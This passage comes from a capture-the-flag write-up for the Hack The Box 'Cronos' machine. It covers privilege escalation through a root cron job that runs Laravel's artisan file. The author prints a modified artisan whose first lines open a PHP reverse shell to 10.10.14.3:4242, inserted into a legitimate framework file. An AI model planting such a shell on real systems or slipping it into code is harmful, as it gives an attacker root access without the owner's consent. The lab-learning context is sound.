 Now to do Priv Esc. Let's get the [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) tool into the system, and check if there are any PE vectors.

![PE](Sixth.png)

Got it! The laravel/artisan is scheduled to run every minute as root. The file is written in php, a php reverse shell payload might do the trick. I was unable to edit the file from the terminal itself, so did a work around.

I copied the entire file onto my system, added the reverse shell.

```php

                                                                                                                                                                                            
┌──(kali㉿kali)-[~/HackTheBox/Cronos/exploit]
└─$ cat artisan                   
#!/usr/bin/env php
<?php

$sock=fsockopen("10.10.14.3",4242);
exec("/bin/sh -i <&3 >&3 2>&3");

/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
| for our application. We just need to utilize it! We'll require it
| into the script here so that we do not have to worry about the
| loading of any our classes "manually". Feels great to relax.
|
*/

require __DIR__.'/bootstrap/autoload.php';

$app = require_once __DIR__.'/bootstrap/app.php';

/*
|--------------------------------------------------------------------------
| Run The Artisan Application
|--------------------------------------------------------------------------
|
| When we run the console application, the current CLI command will be
| executed in this console and the response sent back to a terminal
| or another output device for the developers. Here goes nothing!
|
*/

$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);

$status = $kernel->handle(
    $input = new Symfony\Component\Console\Input\ArgvInput,
    new Symfony\Component\Console\Output\ConsoleOutput
);

/*
|--------------------------------------------------------------------------
| Shutdown The Application
|--------------------------------------------------------------------------
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen to the request.
|
```